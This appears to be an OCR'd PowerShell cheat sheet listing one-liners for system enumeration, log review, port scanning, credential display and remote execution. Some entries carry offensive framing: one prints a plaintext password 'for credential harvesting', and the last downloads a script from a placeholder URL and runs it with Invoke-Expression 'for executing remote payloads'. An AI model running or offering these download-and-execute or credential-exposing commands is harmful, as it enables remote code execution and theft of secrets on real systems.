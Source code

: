 ```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
```

### Listing Running Processes with Details
Lists all currently running processes on the system, sorted by CPU usage, and includes process names, IDs, and
CPU time.

```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```

### Accessing Event Logs for Anomalies
Searches the Security event log for entries where the entry type is ‘FailureAudit’, which can indicate security-related anomalies.

```powershell
Get-EventLog -LogName Security | Where-Object {$_.EntryType -eq 'FailureAudit'}
````

### Scanning for Open Ports
Scans the rst 1024 ports on the local machine to check for open ports, which can be used to identify potential
vulnerabilities.

```powershell
1..1024 | ForEach-Object { $sock = New-Object System.Net.Sockets.TcpClient; $async =
$sock.BeginConnect('localhost', $_, $null, $null); $wait = $async.AsyncWaitHandle.WaitOne(100, $false);
if($sock.Connected) { $_ } ; $sock.Close() }
```

### Retrieving Stored Credentials
Prompts for user credentials and then displays the username and password, useful for credential harvesting.

```powershell
$cred = Get-Credential; $cred.GetNetworkCredential() | Select-Object -Property UserName, Password
```

### Executing Remote Commands
Executes a command remotely on a target PC, in this case, listing processes. Requires credentials for the target
system.

```powershell
Invoke-Command -ComputerName TargetPC -ScriptBlock { Get-Process } -Credential (Get-Credential)
```

### Downloading and Executing Scripts from URL
Downloads and executes a PowerShell script from a specied URL. Useful for executing remote payloads.

```powershell
$url = 'http://example.com/script.ps1'; Invoke-Expression (New-Object
Net.WebClient).DownloadString($url)
```

